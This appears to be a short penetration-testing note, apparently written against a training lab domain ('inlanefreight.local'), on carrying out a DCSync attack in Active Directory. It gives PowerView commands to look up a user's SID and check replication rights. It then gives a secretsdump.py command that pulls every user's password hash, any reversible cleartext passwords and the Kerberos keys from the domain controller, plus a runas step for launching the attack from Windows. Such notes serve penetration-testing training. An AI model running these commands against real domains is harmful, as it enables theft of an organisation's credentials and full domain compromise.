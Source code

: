 -- -
Can be used after you get domain admin or if you get a user with these privs. This attack is used to sync AD so you should get all users and their saved hashes from the DC. First, verify your user can do this
#### Get User SID
```powershell
Get-DomainUser -Identity <user> | select samaccountname,objectsid,memberof,useraccountcontrol | fl
```
#### Check User's Replication Rights
```powershell
# Set SID
$sid= "<user sid>"
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"

# Get replication rights
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```
#### Perform DSync Attack
**From linux**
```bash
secretsdump.py -outputfile inlanefright_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```
Note: The above command will output multiple files:
1. The user hases in `.ntds`
2. Cleartext passwords if user had reversible encryption set in `.ntds.cleartext` 
3. Kerberos keys in `.ntds.kerberos`
**From Windows**
Make sure you run this from the perspective of the user with Sync privileges, if you need to force this:
```powershell
runas /netonly /user:INLANEFREIGHT\adunn powershell
```
Then run attack:
![[Hacking Scratch/Tools/mimikatz#^21193e]]
